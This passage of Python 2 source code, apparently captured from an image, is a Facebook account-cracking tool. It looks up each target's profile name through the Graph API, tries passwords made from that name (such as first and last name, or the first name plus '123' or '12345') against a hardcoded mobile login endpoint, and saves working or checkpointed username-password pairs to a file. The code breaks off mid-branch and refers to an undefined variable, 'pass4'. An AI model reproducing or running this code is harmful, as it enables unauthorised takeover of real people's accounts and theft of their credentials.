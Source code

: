 	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass 
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + b['last_name']
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\033[0;92m[OK] \033[0;39m ' + user  + ' \033[0;39m | \033[0;39m ' + pass1 + '\033[0;39m | \033[0;39m' + b['name']
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[0;36;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass1 + '\033[0;39m | \033[0;39m' + b['name']
					cek = open("out/CP.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name'] + '123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\033[0;91m[OK] \033[0;39m ' + user  + ' \033[0;39m | \033[0;39m ' + pass2 + '\033[0;39m | \033[0;39m' + b['name']
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[0;36;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass2 + '\033[0;39m | \033[0;39m' + b['name']
							cek = open("out/CP.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\033[0;92m[OK] \033[0;39m ' + user  + ' \033[0;39m | \033[0;39m ' + pass3 + '\033[0;39m | \033[0;39m' + b['name']
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass3 + '\033[0;39m | \033[0;39m' + b['name']
									cek = open("out/CP.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass4)
								else: